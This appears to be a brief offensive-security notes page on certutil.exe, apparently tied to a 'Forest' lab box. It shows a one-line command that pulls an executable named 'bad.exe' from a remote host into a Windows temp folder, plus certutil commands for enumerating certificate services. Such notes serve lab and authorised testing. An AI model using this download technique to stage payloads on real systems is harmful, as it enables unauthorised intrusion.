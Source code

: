 ```yaml
---
description: >-
  Certutil.exe utility to upload files.
title: Certutil.exe                 # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Windows - Certutil.exe]                     # Change Templates to Writeup
tags: [file transfer, windows upload, certutil, certificate, AD CS]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe C:\Windows\Temp\bad.exe
```
Example:
[[Forest#^8fde0e]]

```bash
# Dump general information
certutil -dump
# Dump information about certificate authority
certutil -ca
# List all templates
certutil -template
```